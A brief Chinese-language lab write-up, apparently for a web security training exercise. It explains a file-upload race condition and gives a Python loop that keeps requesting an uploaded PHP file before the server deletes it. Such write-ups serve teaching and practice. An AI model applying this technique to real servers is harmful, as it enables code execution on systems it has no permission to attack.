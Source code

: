 ### 題目解釋
透過 Race Condition，他會先存到目的地暫放，然後才會確認是否合法，如果不合法再刪掉。

### 解答

寫腳本一直抓
```
import requests

while True:
    res = requests.get("https://ac961fb91e49cafdc0da460c004800b7.web-security-academy.net/files/avatars/s.php")
    print(res.text)
```

然後也多上傳幾次，就可以收到了
